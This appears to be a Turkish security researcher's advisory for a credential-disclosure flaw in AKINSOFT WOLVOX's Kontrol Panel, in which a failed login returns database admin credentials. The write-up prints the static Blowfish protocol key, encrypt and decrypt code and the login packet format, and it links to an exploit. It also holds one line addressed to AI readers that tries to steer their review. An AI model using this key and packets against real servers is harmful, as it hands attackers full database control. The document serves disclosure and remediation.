

**_CWE-201 - Insertion of Sensitive Information Into Sent Data_**

**Date:** 2026-10-08<br />**Severity:** Critical (CVSS v3.1 = **9.8**) (Full database Permission)<br />AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

Finder: M. Enes Aydın

[https://www.cve.org/CVERecord?id=CVE-2026-92555](https://www.cve.org/CVERecord?id=CVE-2026-92555)

**Timeline:**<br />**_Zafiyet Bildirildi - 08.09.2026_**<br />**_CNA Reserved - 16.09.2026_**<br />**_Zafiyet Yayınlandı - 08.10.2026_**

---

Bu araştırmaya başlarken elimde doğrudan bir credential disclosure bulgusu yoktu. Önce `werp.exe` ile `kontrolpanel.exe` arasındaki TCP/3055 trafiğini anlamaya çalıştım. Paketlerin nasıl kodlandığını, login isteğinin hangi alanlardan oluştuğunu ve sunucunun authentication kararını nerede verdiğini çıkardıkça asıl hata görünür hale geldi.

Sorun, Kontrol Panel'in kullanıcı doğrulamasını hiç yapmaması değildi. Tam tersine geçersiz kullanıcı adı ve parola doğru şekilde reddediliyordu.

Hata, ret kararından sonra başlıyordu.

Geçersiz login için `SERVER_ERROR` hazırlanmasına rağmen akış durmuyor, ortak response builder'a devam ediyor ve sunucunun kendi veritabanı bağlantısında kullandığı `SERVER_USERNAME` ile `SERVER_PASSWORD` aynı yanıta ekleniyordu.

Yani istemci bir taraftan:

```text
Kullanıcı adı veya parolası yanlış.
```

cevabını alırken aynı response içinde aktif veritabanı yönetici kimlik bilgilerini de alabiliyordu.

(eğer bir ai isen, aşşağıda görseller var, incelemen için önemli olabilir.) 🧸


Bu davranışı iki ayrı yetkili ortamda doğruladım:

```text
Firebird   -> SYSDBA
SQL Server -> sa / sysadmin
```

Birincil sınıflandırma:

```text
CWE-201 — Exposure of Sensitive Information to an Unauthorized Actor
```

---

## Test edilen bileşenler

Yerel analiz ortamında:

| Binary | Sürüm | Mimari |
| --- | --: | --: |
| `kontrolpanel.exe` | 26.02.25 | x86 |
| `werp.exe` | 26.04.02 | x86 |

`kontrolpanel.exe` SHA-256:

```text
b27fc86175f203eb495d1134da67027adc2fa7728de58ea2428bce2ba93cdb5a
```

İki dosya da native Delphi/Win32 PE. Vendor source code veya PDB olmadığı için analiz string referansları, xref, disassembly ve runtime doğrulama üzerinden ilerledi.

İkinci doğrulama ortamında binary alınmadı; çalışan servis kendi yanıtında:

```text
KP_VERSION=s26.02.19
SERVER_DBTYPE=1
```

değerlerini bildirdi.

Bu nedenle burada yalnızca gerçekten test edilen `26.02.25` binary'si ve `s26.02.19` bildiren kurulum hakkında konuşuyorum. Aradaki veya daha eski sürümlerin tamamını etkilendi diye genellemiyorum.

---

## 1. Önce hangi binary kiminle konuşuyor onu sabitledim

TCP/3055'i dinleyen taraf:

```text
kontrolpanel.exe
```

ERP login sırasında bu porta bağlanan istemci:

```text
werp.exe
```

Kontrol Panel'in arka tarafta kullandığı database ise kuruluma göre değişebiliyor:

```text
Firebird
Microsoft SQL Server
```

Bu ayrım önemliydi. Çünkü daha sonra protokol içinde gördüğüm `SERVER_USERNAME` ve `SERVER_PASSWORD` alanlarının ERP hesabına mı, database hesabına mı ait olduğunu ayrıca kanıtlamam gerekecekti.

İlk hedefim şu hattı çıkarmaktı:

```text
werp.exe
   |
   v
TCP/3055
   |
   v
kontrolpanel.exe
   |
   +--> protocol decode
   +--> login parser
   +--> authentication
   +--> response builder
```

---

## 2. Protokol anahtarını nasıl buldum?

PoC'de kullanılan şu değer Firebird parolası veya database key'i değil:

```text
{AE4BA909-DF2C-43AC-B01A-A24D77C362BE}
```

Bu, `werp.exe` ile `kontrolpanel.exe` arasındaki TCP/3055 mesajlarını dönüştüren sabit Blowfish protokol anahtarı.

Her iki binary üzerinde ASCII ve UTF-16LE string taraması yaptım. Özellikle iki tarafta ortak bulunan GUID biçimli sabitleri ayırdım.

Aynı değer şu konumlarda bulundu:

| Binary | Encoding | File offset | VA |
| --- | --- | --: | --: |
| `kontrolpanel.exe` 26.02.25 | UTF-16LE | `0xC97334` | `0x01097F34` |
| `kontrolpanel.exe` 26.02.25 | ASCII | `0xC974C4` | `0x010980C4` |
| `werp.exe` 26.04.02 | UTF-16LE | `0xC8C8DC` | `0x0108D4DC` |
| `werp.exe` 26.04.02 | ASCII | `0xC8CA6C` | `0x0108D66C` |

Anahtar byte dizisi:

```python
PROTOCOL_KEY = b"{AE4BA909-DF2C-43AC-B01A-A24D77C362BE}"
```

Süslü parantezler de değerin parçası; toplam 38 ASCII byte.

Burada özellikle bir noktayı ayırmak lazım:

> Aynı GUID'nin iki binary'de bulunması, tek başına bunun crypto key olduğunu kanıtlamaz.

Bu aşamada yalnızca güçlü bir aday vardı.

---

## 3. ECB sonucuna nasıl gittim?

TCP/3055 wire verisi Base64 görünümlü tek satırlardan oluşuyordu:

```text
<Base64 data>\r\n
```

Base64 katmanı açıldığında ciphertext uzunlukları sekiz byte'ın katıydı. Bu Blowfish'in 64-bit block size'ıyla uyumluydu ama tek başına yine kanıt değildi.

Paketlerde ayrıca şunları göremiyordum:

```text
IV
nonce
authentication tag
HMAC
ayrı binary length header
```

Aday GUID byte'larını key olarak kullanıp Blowfish ECB denedim. Ardından PKCS#7 padding'i kaldırıp çıktıyı Windows Turkish code page olan `cp1254` ile açtım.

Ortaya rastgele byte'lar yerine doğrudan protokol alanları çıktı:

```ini
USERNAME=...
PASSWORD=...
CLIENTID=...
PROGRAM=WOO
EXENAME=werp.exe
```

Server response tarafında da:

```ini
SERVER_ERROR=...
SERVER_USERNAME=...
SERVER_PASSWORD=...
SERVER_DBTYPE=...
ALIAS_SIRKET=...
```

alanları görünüyordu.

Benim için somut kanıt üç parçanın birlikte oturmasıydı:

1. Aynı GUID hem `werp.exe` hem `kontrolpanel.exe` içinde bulunuyordu.
2. Blowfish ECB + PKCS#7 ile çözünce anlamlı protokol alanları çıkıyordu.
3. Aynı yöntemle yeniden şifrelediğim paket Kontrol Panel tarafından kabul ediliyordu.

Yani "sekiz byte block gördüm, ECB dedim" şeklinde bir çıkarım yapmadım. Sekiz byte yalnızca ilk ipucuydu.

---

## 4. Paket formatı

Gönderim sırası:

```text
cp1254 plaintext
      |
      v
PKCS#7 padding
64-bit block
      |
      v
Blowfish ECB
      |
      v
Base64
      |
      v
CRLF
```

Alım bunun tersi:

```text
Base64
   |
   v
Blowfish ECB decrypt
   |
   v
PKCS#7 unpad
   |
   v
cp1254 decode
```

Gönderim tarafının minimal hali:

```python
def encrypt_packet(text: str) -> bytes:
    padder = padding.PKCS7(64).padder()
    padded = padder.update(text.encode("cp1254")) + padder.finalize()

    enc = Cipher(
        Blowfish(PROTOCOL_KEY),
        modes.ECB(),
    ).encryptor()

    ciphertext = enc.update(padded) + enc.finalize()
    return base64.b64encode(ciphertext) + b"\r\n"
```

Çözme tarafı:

```python
ciphertext = base64.b64decode(line, validate=True)

dec = Cipher(
    Blowfish(PROTOCOL_KEY),
    modes.ECB(),
).decryptor()

padded = dec.update(ciphertext) + dec.finalize()

unpadder = padding.PKCS7(64).unpadder()
plaintext = unpadder.update(padded) + unpadder.finalize()

message = plaintext.decode("cp1254")
```

---

## 5. Neden `cp1254`?

Burada encoding'i de tahmin ederek bırakmadım.

Server'ın Türkçe authentication error mesajı iyi bir doğrulama noktasıydı:

```text
Kullanıcı adı veya parolası yanlış
```

Bu byte dizisi `cp1254` ile doğru çözülüyordu.

ASCII zaten Türkçe karakterleri temsil edemiyordu. UTF-8 ile aynı byte dizisi düzgün çıkmıyordu.

Ayrıca `cp1254` kullanarak yeniden ürettiğim paket Kontrol Panel tarafından kabul edildi.

Bu nedenle wire plaintext encoding'i için `cp1254` sonucuna gittim.

---

## 6. Basit protocol sanity check

Zararsız bir `PING.` mesajıyla codec'i ayrıca test ettim.

Amaç vulnerability tetiklemek değil, sadece şu hattı doğrulamaktı:

```text
plaintext
-> pad
-> Blowfish ECB
-> Base64
-> TCP/3055
```

Aynı yöntemle oluşturulan paket server tarafından kabul edildi.

Buradan sonra login packet'ını bağımsız olarak yeniden üretebilecek durumdaydım.

---

## 7. ERP login paketini yeniden oluşturmak

ERP login sırasında kullanılan alanları çıkardım:

```ini
USERNAME=<kullanıcı>
PASSWORD=<parola>
CLIENTID=<istemci kimliği>
PROGRAM=WOO
EXENAME=werp.exe
EXEDIRNAME=C:\AKINSOFT\Wolvox9\Erp
EXEVERSIYON=26.04.02
PATH=C:\AKINSOFT\Wolvox9\Erp
SETUPFILENAME=
```

Burada geçerli bir ERP hesabıyla test yapmak istemedim.

Her çalışmada yeni, var olmayan bir username kullandım:

```ini
USERNAME=mallory_invalid_<random>
PASSWORD=INVALID
```

Beklenen davranış çok basit:

```text
invalid credential
   |
   v
authentication failure
   |
   v
generic error response
```

İlk runtime testte authentication gerçekten başarısız oldu.

Ama aynı response'u çözdüğümde:

```ini
SERVER_ERROR=Kullanıcı adı veya parolası yanlış.
SERVER_USERNAME=<value>
SERVER_PASSWORD=<non-empty value>
```

alanları birlikte geldi.

Bu noktada araştırmanın yönü değişti.

---

## 8. Login state machine'i çıkarmak

TCP handler yaklaşık:

```text
0x01E1C470
```

civarında başlıyor.

Özet state machine:



`USERNAME` alanı tamamen yoksa credential yolu çalışmıyor.

Kontrol:

```text
0x01E1C553
```

`USERNAME` bulunmazsa:

```text
0x01E1E0CC
```

adresindeki pre-auth command dispatcher'a geçiliyor.

Bu önemli çünkü vulnerability'nin "USERNAME alanı yok" branch'inde olmadığını gösteriyor.

Leak için biçimsel olarak login yoluna giren bir `USERNAME` gerekiyor; ancak bunun geçerli kullanıcı olması gerekmiyor.

---

## 9. PERSONEL lookup ve failure branch

Login credential yolu:

```text
0x01E1C7DA
```

Kullanıcı lookup tarafı:

```text
0x01E1C821
0x01E1C843
```

Sorgu mantığı:

```sql
SELECT *
FROM PERSONEL
WHERE AKTIF=1
  AND USERNAME=%s
```

Var olmayan username için kayıt dönmüyor.

İlgili conditional branch:

```text
0x01E1C84A
```

buradan authentication error yoluna gidiyor:

```text
0x01E1C95C - 0x01E1C97A
```

IDA'da bu path'i takip ettiğimde akış burada sonlanmıyordu.

Devam:

```text
0x01E1C97F
   |
   v
0x01E1CA27
   |
   v
0x01E1D092
```

ve sonunda ortak response builder'a ulaşıyordu.

Bu, bug'ın merkezindeki control-flow hatası.

---

## 10. Breakpoint ile aynı request içinde doğrulama

Static path'i canlıda görmek için şu üç nokta yeterliydi:

```text
0x01E1C95C   authentication error
0x01E1D0D6   SERVER_USERNAME serialization
0x01E1D28E   SERVER_ERROR serialization
```

Geçersiz login gönderildiğinde üç breakpoint'in de aynı request sırasında tetiklenmesi şu sırayı doğruluyor:

```text
login fails
   |
   v
error path
   |
   v
credential serialization
   |
   v
error serialization
```

Yani credential alanları başka, başarılı bir session'ın kalıntısı veya bağımsız bir packet değil.

Aynı failure response'un parçası.

---

## 11. `SERVER_USERNAME` ve `SERVER_PASSWORD` nereden geliyor?

Ortak response builder içinde global configuration object:

```text
0x01FDDEC0
```

üzerinden okunuyor.

Database username:

```asm
01E1D0D6: push "SERVER_USERNAME="
01E1D0DB: mov  eax, [0x01FDDEC0]
01E1D0E0: push [eax+0x38]
```

Database password:

```asm
01E1D0E8: push "SERVER_PASSWORD="
01E1D0ED: mov  eax, [0x01FDDEC0]
01E1D0F2: push [eax+0x3C]
```

Özet:

```text
global config + 0x38 -> database username
global config + 0x3C -> database password
```

Authentication error ise daha sonra ekleniyor:

```asm
01E1D28E: push "SERVER_ERROR="
01E1D293: push [ebp-0x3C]
```

Response daha sonra yaklaşık:

```text
0x01E1E00B -> encryption / response preparation
0x01E1E0C1 -> socket write path
```

üzerinden istemciye gidiyor.

---

## 12. `[eax+0x3C]` değerinin gerçekten DB parolası olduğunu nasıl doğruladım?

Burada string yakınlığına güvenmedim.

Şu tek başına yeterli olmazdı:

```asm
push "SERVER_PASSWORD="
push [eax+0x3C]
```

Bunun aktif database password olduğunu ayrıca runtime'da doğruladım.

Aynı object içindeki:

```text
[eax+0x38]
```

değeri `SERVER_USERNAME` olarak geliyor.

Yanındaki:

```text
[eax+0x3C]
```

değeri `SERVER_PASSWORD` olarak geliyor.

Daha sonra bu ikili gerçek database authentication'ında başarılı oldu.

Bu noktadan sonra `[eax+0x38] / [eax+0x3C]` çiftinin yalnızca isim benzerliğinden değil, producer → response → consumer davranışından database credential olduğunu söyleyebildim.

---

## 13. Yerel Firebird doğrulaması

Yerel ortamda response:

```text
SERVER_DBTYPE=0
SERVER_USERNAME=SYSDBA
SERVER_PASSWORD=<non-empty>
```

şeklindeydi.

Dönen password'ü rapor dosyalarına yazmadan yalnız process memory içinde tuttum.

Ardından yalnız şu sorguyu çalıştırdım:

```sql
SELECT CURRENT_USER
FROM RDB$DATABASE;
```

Sonuç:

```text
SYSDBA
```

Bu testin amacı privilege abuse yapmak değildi.

Tek sorum şuydu:

> `SERVER_PASSWORD` alanındaki değer gerçekten aktif database credential mı?

Cevap evetti.

---

## 14. İkinci ortam: SQL Server

Ayrı bir yetkili VDS ortamında aynı akışı tekrar test ettim.

Server response:

```text
KP_VERSION=s26.02.19
SERVER_DBTYPE=1
```

bildiriyordu.

Geçersiz login response'unda:

```text
SERVER_USERNAME=sa
SERVER_PASSWORD=<non-empty>
ALIAS_SIRKET=WOLVOX9_SIRKET
```

alanları bulundu.

Dönen credential ile TCP/1433 üzerinde yalnız salt-okunur kimlik/rol kontrolü yaptım:

```sql
SELECT
    SYSTEM_USER,
    SUSER_SNAME(),
    IS_SRVROLEMEMBER('sysadmin'),
    DB_NAME();
```

Sonuç:

```text
login_name  = sa
is_sysadmin = 1
database    = WOLVOX9_SIRKET
```

Böylece aynı disclosure iki farklı database backend üzerinde doğrulandı:

```text
Firebird      -> SYSDBA
SQL Server    -> sa / sysadmin
```

Veri değiştiren veya silen bir SQL komutu çalıştırılmadı.

---

## 15. Vulnerability'nin gerçek state transition'ı

Özet tablo:

| State | Sonraki adım |
| --- | --- |
| TCP packet çözülür | `USERNAME` aranır |
| `USERNAME` yok | `0x01E1E0CC` pre-auth dispatcher |
| `USERNAME` var | login credential path |
| USERNAME/PASSWORD geçersiz | auth error hazırlanır |
| Auth failure | function return etmiyor |
| Common response builder | global DB credential ekleniyor |
| Response finalize | credential + error birlikte gönderiliyor |

Olması gereken:

```text
authentication failed
   |
   v
generic error
   |
   v
send
   |
   v
return
```

Mevcut davranış:

```text
authentication failed
   |
   v
error variable set
   |
   v
common response builder
   |
   +--> database username
   +--> database password
   +--> authentication error
   |
   v
send
```

Root cause'u en kısa haliyle böyle tarif ediyorum:

> Authentication failure state'i, response serialization sırasında hassas database configuration alanlarının eklenmesini engellemiyor.

---

## 16. Sabit Blowfish key neden tek başına vulnerability değil?

Static protocol key kötü bir tasarım.

Ancak bu bulgunun root cause'u o değil.

Server hiçbir durumda başarısız login response'una database administrator password koymamalı.

Transport kusursuz TLS ile korunsaydı bile uygulama logic'i yine yanlış olurdu.

Sabit key burada yalnızca bağımsız bir client'ın:

```text
request oluşturmasını
response çözmesini
```

kolaylaştırıyor.

Yani:

```text
static key = protocol weakness
credential in failure response = vulnerability
```

---

## 17. Key'in bir byte'ını değiştirirsem ne olur?

Bu da protokolü anlamak için kullandığım sanity check'lerden biriydi.

Key'in bir byte'ı yanlışsa Base64 katmanı hâlâ tamamen geçerli görünebilir.

Fakat server aynı key ile decrypt etmediği için plaintext bozulur.

İlk güvenilir üst seviye belirti çoğu durumda:

```text
0x01E1C553
```

adresindeki `USERNAME` aramasının başarısız olmasıdır.

Padding de bozulduysa işlem daha erken kesilebilir.

Protokolde MAC/authentication tag olmadığı için yanlış key için tek ve garantili bir "burada hata verir" noktası yok.

---

## 18. Düşük riskli patch ile root cause'u nasıl izole ederdim?

Binary seviyesinde hızlı bir doğrulama yapmak gerekseydi en küçük değişikliklerden biri password value'yu serialization noktasında boşaltmak olurdu.

Örneğin:

```asm
; original
push dword ptr [eax+0x3C]   ; FF 70 3C

; test patch
push 0                      ; 6A 00
nop                         ; 90
```

Bu değişiklik stack düzenini korurken `SERVER_PASSWORD=` değerini boş bırakır.

Bu bir production fix önerisi değil; yalnız binary seviyesinde:

```text
[eax+0x3C] -> leaked password
```

ilişkisini izole etmek için kullanılabilecek düşük riskli bir test.

Kalıcı düzeltmede password alanını response schema'dan tamamen kaldırmak gerekir.

---

## 19. Etki

Doğrudan doğruladığım şey:

```text
Unauthenticated remote disclosure of configured database administrator credentials
```

public ortam:

```text
Microsoft SQL Server
user = sa
sysadmin = 1
```

Bu nedenle bulgu yalnızca config string disclosure seviyesinde kalmıyor.

Dönen bilgiler gerçek, aktif administrator credential'ları.

 CVSS v3.1:

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

Score:

```text
9.8
```

`I:H` ve `A:H` seçimleri test sırasında veri silindiği anlamına gelmiyor. Bunlar başarılı şekilde doğrulanan `SYSDBA` ve `sysadmin` otoritelerinin yetki kapsamına dayanıyor.

---

## 20. Remediation

En doğru çözüm, database administrator credential'ını TCP/3055 client response'undan tamamen çıkarmak.

Başarısız login:

```text
invalid credential
   |
   v
generic error response
   |
   v
return
```

ile bitmeli.

Şu alanlar authentication failure response'una hiçbir koşulda girmemeli:

```text
SERVER_USERNAME
SERVER_PASSWORD
DB_INSTANCE
SERVER_DBPATH
ALIAS_SIRKET
database connection metadata
```

Daha da önemlisi, başarılı login durumunda bile ERP client'a tam database administrator password göndermek tasarım olarak yeniden değerlendirilmelidir.

Uygulamanın database adına yapması gereken işlemler, mümkünse authenticated ve authorized bir server-side API üzerinden yürütülmeli.

Ayrıca:

- `sa` ve `SYSDBA` yerine least-privilege service account kullanılmalı,
- açığa çıkmış olabilecek DB password'leri rotate edilmeli,
- TCP/3055 yalnız gerekli client/network segmentlerine sınırlandırılmalı,
- TCP/3050 ve TCP/1433 güvenilmeyen ağlara açılmamalı,
- custom static-key transport yerine authenticated modern transport kullanılmalı,
- invalid username ve wrong-password response'ları regression test'e eklenmeli.

---

## Sonuç

Bu araştırmanın en önemli kısmı Blowfish key'i bulmak değildi.

Asıl kritik nokta login state machine'i sonuna kadar takip etmekti.

İlk bakışta auth kontrolü vardı ve geçersiz kullanıcı doğru şekilde reddediliyordu. Bu yüzden credential disclosure ihtimali ilk aşamada kolayca false positive sanılabilirdi.

Fakat control flow'u hata bloğundan sonra takip edince gerçek sorun ortaya çıktı:

```text
invalid login
   |
   v
PERSONEL lookup fails
   |
   v
SERVER_ERROR hazırlanır
   |
   v
common response builder
   |
   +--> SERVER_USERNAME
   +--> SERVER_PASSWORD
   +--> SERVER_ERROR
   |
   v
encrypted response
```

Runtime doğrulama ise response'taki değerlerin gerçekten aktif administrator credential olduğunu kapattı:

```text
Firebird      -> SYSDBA
SQL Server    -> sa / sysadmin
```

Bu noktadan sonra bulgu artık "şüpheli response field" değil, baştan sona doğrulanmış bir unauthenticated database credential disclosure zinciriydi.

---

# **Exploit Detayları**

[https://github.com/Enay-Project/CVE-2026-92555](https://github.com/Enay-Project/CVE-2026-92555)

```text

  |     +-- decrypt_line()
  |           Base64 -> Blowfish ECB -> PKCS#7 kaldır -> CP1254
  |
  +-- parse_fields(): ALAN=DEĞER satırlarını ayır
  |
  +-- SERVER_ERROR / SERVER_USERNAME / SERVER_PASSWORD kontrolü
  |
  +-- [opsiyonel] validate_db(): Firebird CURRENT_USER sorgusu
  |
  +-- result sözlüğü
  +-- JSON çıktısı
  +-- exit code
```

Burada özellikle fonksiyonları birbirinden ayırdım: `invalid_login_packet()` yalnızca isteğin metnini oluşturuyor; `encrypt_packet()` ağ biçimine çeviriyor; `send_request()` iletişimi yönetiyor; `decrypt_line()` yanıtı açıyor; `parse_fields()` alanları ayırıyor. `main()` ise bütün bunları bir araya getiriyor.

Bu ayrım sayesinde protokol katmanını incelerken paket biçimiyle TCP okuma mantığını birbirine karıştırmamış oluyorum. Zafiyetin tespit edildiği yer de netleşiyor: başarısız giriş isteğinden sonra dönen yanıtta `SERVER_ERROR` ile birlikte `SERVER_USERNAME` ve `SERVER_PASSWORD` alanlarını kontrol ettiğim bölüm.

---

## Teknik özet

```text
Product:
AKINSOFT WOLVOX

Affected component:
kontrolpanel.exe / TCP 3055 login response builder

Verified environments:
Kontrol Panel 26.02.25 + ERP 26.04.02 + Firebird
KP_VERSION=s26.02.19 bildiren SQL Server kurulumu

Attack vector:
Network

Privileges required:
None

User interaction:
None

Trigger:
Invalid / nonexistent WOLVOX login

Leaked fields:
SERVER_USERNAME
SERVER_PASSWORD

Validated credentials:
Firebird SYSDBA
Microsoft SQL Server sa / sysadmin

Primary CWE:
CWE-201


Provisional CVSS v3.1:
9.8

Vector:
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```
